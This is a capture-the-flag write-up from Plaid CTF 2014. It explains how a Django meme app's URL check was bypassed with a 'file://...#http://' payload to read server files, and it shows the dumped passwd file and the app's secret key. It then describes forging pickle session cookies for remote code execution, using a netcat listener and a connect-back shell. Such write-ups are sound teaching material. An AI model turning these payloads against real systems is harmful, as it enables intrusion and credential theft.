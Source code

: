 # reeekeeeeee
    Plaid CTF, 2014
    writeup by pipecork

Upon a hideously awesome flashing background, visiting the site asks us to register an account. We create the user account 'les' and login. We're prompted to "make a meme" by supplying the URL to an image and some overlay text. Our created memes are then displayed on the page. While a fun activity on a Saturday night, we have a flag to find. Let's check the source for some vulns.

The file [views.py](reekee/mymeme/views.py) holds the meat of the application. We see they do a lot of concatenation of the username onto directory paths in the `viewmeme` function:

```python
def viewmeme(request,meme=None):
  print meme
  username = str(request.user)
  if meme is not None:
    filename = "/tmp/memes/"+username+"/"+str(meme)
    ctype = str(imghdr.what(filename))
    return HttpResponse(open(filename).read(),content_type="image/"+ctype)
  else:
    return render(request,"view.html",{'files':sorted(os.listdir("/tmp/memes/"+username), key=lambda x:os.path.getctime(bp+x) )})
  return HttpResponse("view"+username)
```

So a user's created memes are stored in `/tmp/memes/<username>` and the whole directory gets listed to display them. So, of course, let's make a user named `../..` right? Unfortunately, in the `register` function:

```python
. . .

if (".." in username) or ("/" in username):
  return HttpResponse("Error: invalid username"+BACK)

. . .
```

Drat. Eventually in a stroke of genius by mike_pizza, we spot small error in the code that downloads the meme image from a supplied URL:

```python
. . .

try:
  if "http://" in url:
    image = urllib2.urlopen(url)
  else:
    image = urllib2.urlopen("http://"+url)

. . .
```

The if statement only checks if the string "http://" is in the supplied URL... not if it actually starts with it! We can use `file://` with urllib's `urlopen` function to grab files from the server. Passing `file:///etc/passwd#http://` as a meme url confirms our suspicions by uploading the server's passwd file as one of our memes:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
admin:x:1000:1000:Debian:/home/admin:/bin/bash
reekee:x:1001:1001::/home/reekee:/bin/false
reekeeplus:x:1002:1002::/home/reekeeplus:/bin/false
``` 

Cool. Now where's the flag? There's a big clue in the [supplied settings.py file](reekee/mymeme/settings.py):

```python
. . .

#HMMMMM
SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'

. . .
```



Pickle with signed cookies is *notorious* for allowing remote code execution, provided that you have the Django app's secret key. Normally in a Django app like this one, we'd find the secret development key in the same file. Of course, the *real* secret key isn't in here. That'd make it too easy. 

After a bit of trial-and-error, we find the real settings.py file with `file:///home/reekee/mymeme/mymeme/settings.py#http://`. Lo and behold:

```python
...
SECRET_KEY='kgsu8jv!(bew#wm!eb3rb=7gy6=&5ew*jv)j-6-(50$f%no98-'
...
```

This is the secret key used to sign the SessionID that's then serialized by Pickle. Using this, we can forge custom SessionIDs to give us code execution!

This is where we have to give thanks to others before us (such as [Erik Romijn](http://erik.io/blog/2013/04/26/proof-of-concept-arbitrary-remote-code-execution-pickle-sessions/)) for their wonderful prior work on building PoC code to exploit this. Using their work saved us some serious time in solving this challenge.

First we start listening on a port on our machine, with `nc -lp 1337`. We used a [Django specific exploit](WRITEUP-pipecork-files/django-exploit.py) to send a Python [connect back shell](WRITEUP-pipecork-files/connback.py), which connects to our listening port, giving us a shell on the web server! Let's check the home directories:

```bash
$ cd /home/reekeeplus
$ ls
give_me_the_flag.exe  mymeme  use_exe_to_read_me.txt
$ ./give_me_the_flag.exe
flag: why_did_they_make_me_write_web_apps
write: Success
```

Bingo! The flag is `why_did_they_make_me_write_web_apps`.

(For those wondering why they required using an executable to read the flag: the challenge wanted to make sure you had execution on the server, and didn't just use the previous local file inclusion vuln to read the flag file.)

